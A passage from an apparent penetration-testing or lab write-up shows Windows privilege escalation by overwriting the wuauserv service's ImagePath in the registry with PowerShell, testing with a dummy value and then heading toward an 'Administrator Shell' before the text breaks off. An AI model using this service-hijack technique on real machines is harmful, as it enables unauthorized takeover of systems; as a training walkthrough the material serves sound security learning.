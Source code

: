 ```powershell
                               ServiceSidType      : 1
                               Start               : 3
                               SvcMemHardLimitInMB : 246
                               SvcMemMidLimitInMB  : 167
                               SvcMemSoftLimitInMB : 88
                               Type                : 32


PS HKLM:\SYSTEM\CurrentControlSet\Services>
```



Change value for something simple to see if works:



```powershell
PS HKLM:\SYSTEM\CurrentControlSet\Services> set-itemproperty -path wuauserv -Name ImagePath -Value "Dumb Way"
PS HKLM:\SYSTEM\CurrentControlSet\Services> get-item wuauserv


    Hive: HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services


Name                           Property
----                           --------
wuauserv                       DependOnService     : {rpcss}
                               Description         : @%systemroot%\system32\wuaueng.dll,-106
                               DisplayName         : @%systemroot%\system32\wuaueng.dll,-105
                               ErrorControl        : 1
                               FailureActions      : {128, 81, 1, 0...}
                               ImagePath           : Dumb Way
                               ObjectName          : LocalSystem
                               RequiredPrivileges  : {SeAuditPrivilege, SeCreateGlobalPrivilege,
                               SeCreatePageFilePrivilege, SeTcbPrivilege...}
                               ServiceSidType      : 1
                               Start               : 3
                               SvcMemHardLimitInMB : 246
                               SvcMemMidLimitInMB  : 167
                               SvcMemSoftLimitInMB : 88
                               Type                : 32


PS HKLM:\SYSTEM\CurrentControlSet\Services>
```

Works !!!! Great. Now we can get a **Administrator Shell**



## Administrator Shell 

